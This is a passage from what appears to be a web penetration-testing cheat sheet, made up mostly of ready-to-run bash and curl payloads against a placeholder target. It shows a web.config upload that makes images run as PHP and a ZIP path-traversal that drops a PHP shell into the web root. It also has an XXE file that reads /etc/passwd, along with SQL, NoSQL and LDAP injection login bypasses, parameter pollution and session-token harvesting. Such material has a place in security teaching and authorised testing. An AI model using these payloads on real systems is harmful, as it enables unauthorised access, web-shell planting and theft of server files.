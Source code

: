 ```bash
curl -X POST -F "file=@web.config" http://target.com/upload.php
# IIS equivalent of .htaccess
# Configures server to execute images as PHP

# ZIP file upload with path traversal
zip malicious.zip ../../../var/www/html/shell.php
curl -X POST -F "file=@malicious.zip" http://target.com/upload.php
# Path traversal via ZIP extraction
# May extract files to arbitrary locations

# XML External Entity (XXE) via file upload
cat > malicious.xml << 'EOF'
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<root>&xxe;</root>
EOF
curl -X POST -F "file=@malicious.xml" http://target.com/upload.php
# XXE attack via XML file upload
# May reveal server files
```

## Authentication and Session Management Testing

### **Authentication Bypass Techniques**

**What authentication flaws involve:** Weaknesses in login mechanisms, session management, password policies, and access controls.

**Why authentication testing is crucial:** Authentication bypasses provide direct access to protected functionality. Common in web applications with custom authentication.

```bash
# SQL injection authentication bypass
curl -X POST -d "username=admin' OR '1'='1'--&password=anything" http://target.com/login.php
# Classic SQL injection login bypass
# Bypasses password verification

# NoSQL injection authentication bypass
curl -X POST -H "Content-Type: application/json" -d '{"username":{"$ne":""},"password":{"$ne":""}}' http://target.com/api/login
# NoSQL (MongoDB) injection bypass
# Modern applications using NoSQL databases

# LDAP injection authentication bypass  
curl -X POST -d "username=admin)(&(password=*&password=anything" http://target.com/login.php
# LDAP injection in Active Directory environments
# Bypasses LDAP authentication

# HTTP parameter pollution
curl -X POST -d "username=guest&username=admin&password=test" http://target.com/login.php
# Different parameters with same name
# May cause authentication bypass

# Session fixation testing
curl -c cookies.txt -b cookies.txt http://target.com/login.php
# Captures session ID before authentication
# Tests if session ID changes after login

# Weak session token analysis
for i in {1..10}; do
    curl -c "cookies_$i.txt" http://target.com/login.php
    grep -o 'PHPSESSID=[^;]*' "cookies_$i.txt"
done
# Analyzes multiple session tokens
```